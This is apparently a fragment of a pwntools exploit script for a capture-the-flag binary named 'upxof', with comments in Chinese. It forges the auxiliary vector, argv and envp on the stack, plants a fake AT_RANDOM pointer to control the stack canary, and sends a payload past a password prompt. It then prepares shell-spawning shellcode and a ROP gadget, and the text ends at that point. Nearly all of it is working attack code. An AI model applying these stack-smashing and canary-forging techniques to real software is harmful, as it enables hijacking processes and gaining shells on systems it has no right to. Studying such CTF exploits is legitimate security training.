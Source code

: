 ```python
fake_AT_SYSINFO_EHDR_key=33 
fake_AT_UID_key=11
fake_AT_UNKNOWN26_key=26

fake_AT_BASE_value=0x0
fake_AT_CLKTCK_value=0x64
fake_AT_EGID_value=0x0
fake_AT_ENTRY_value=0x400988
fake_AT_EUID_value=0x0
#fake_AT_EXECFN_value="/root/Canary_User_Mode/ctf2/upxof"
fake_AT_EXECFN_value=0xdeadbeef    #任意值，无需为指针
fake_AT_FLAGS_value=0x0
fake_AT_GID_value=0x0
fake_AT_HWCAP_value=0xf8bfbff
fake_AT_NULL_value=0x0
fake_AT_PAGESZ_value=0x1000
fake_AT_PHDR_value=0x400040
fake_AT_PHENT_value=0x38
fake_AT_PHNUM_value=0x2
#fake_AT_PLATFORM_value="x86_64"
fake_AT_PLATFORM_value=0xdeadbeef  #任意值，无需为有效指针
fake_AT_RANDOM_value=0x601100      #fake_canary：必须为有效指针，指针指向的值为canary
fake_AT_SECURE_value=0x0
fake_AT_SYSINFO_EHDR_value=0x7ffff7ffd000  #必须为有效指针，指针指向的值可以为0
fake_AT_UID_value=0x0
fake_AT_UNKNOWN26_value=0x0

fake_auxv=""
fake_auxv+=p64(fake_AT_SYSINFO_EHDR_key)+p64(fake_AT_SYSINFO_EHDR_value) #为了方便对照，这里采用与stack上AUXV相同的顺序
fake_auxv+=p64(fake_AT_HWCAP_key)+p64(fake_AT_HWCAP_value)               
fake_auxv+=p64(fake_AT_PAGESZ_key)+p64(fake_AT_PAGESZ_value)
fake_auxv+=p64(fake_AT_CLKTCK_key)+p64(fake_AT_CLKTCK_value)
fake_auxv+=p64(fake_AT_PHDR_key)+p64(fake_AT_PHDR_value)
fake_auxv+=p64(fake_AT_PHENT_key)+p64(fake_AT_PHENT_value)
fake_auxv+=p64(fake_AT_PHNUM_key)+p64(fake_AT_PHNUM_value)
fake_auxv+=p64(fake_AT_BASE_key)+p64(fake_AT_BASE_value)
fake_auxv+=p64(fake_AT_FLAGS_key)+p64(fake_AT_FLAGS_value)
fake_auxv+=p64(fake_AT_ENTRY_key)+p64(fake_AT_ENTRY_value)
fake_auxv+=p64(fake_AT_UID_key)+p64(fake_AT_UID_value)
fake_auxv+=p64(fake_AT_EUID_key)+p64(fake_AT_EUID_value)
fake_auxv+=p64(fake_AT_GID_key)+p64(fake_AT_GID_value)
fake_auxv+=p64(fake_AT_EGID_key)+p64(fake_AT_EGID_value)
fake_auxv+=p64(fake_AT_SECURE_key)+p64(fake_AT_SECURE_value)
fake_auxv+=p64(fake_AT_RANDOM_key)+p64(fake_AT_RANDOM_value)
fake_auxv+=p64(fake_AT_UNKNOWN26_key)+p64(fake_AT_UNKNOWN26_value)
fake_auxv+=p64(fake_AT_EXECFN_key)+p64(fake_AT_EXECFN_value)
fake_auxv+=p64(fake_AT_PLATFORM_key)+p64(fake_AT_PLATFORM_value)
fake_auxv+=p64(0)*2              #auxv需要以NULL（AT_NULL）结尾，给一个p64(0)即可

fake_argc=p64(0x1)               #在写入shellcode之前，地址0x601100存放的值为零
fake_argv=p64(0x601100)+p64(0)   #必须为有效指针，指针指向的值可以为0
fake_envp=p64(0x601100)*28+p64(0)#必须为有效指针，指针指向的值可以为0
                                 #envp在原内存中有28个成员(以\x00结尾)，但这不是固定的，在伪造时可以为任意数量
                                 #只要别太离谱就行（感兴趣可以自己分析分析）

payload1='12345678'+p64(0)*14+fake_argc+fake_argv+fake_envp+fake_auxv #“12345678”过password验证
p.recvuntil("password:")
#gdb.attach(proc.pidof(p)[0]) 
p.sendline(payload1)

shellcode=asm(shellcraft.sh())
pop_rdi_gadget=0x4007f3 #需为壳后的地址
```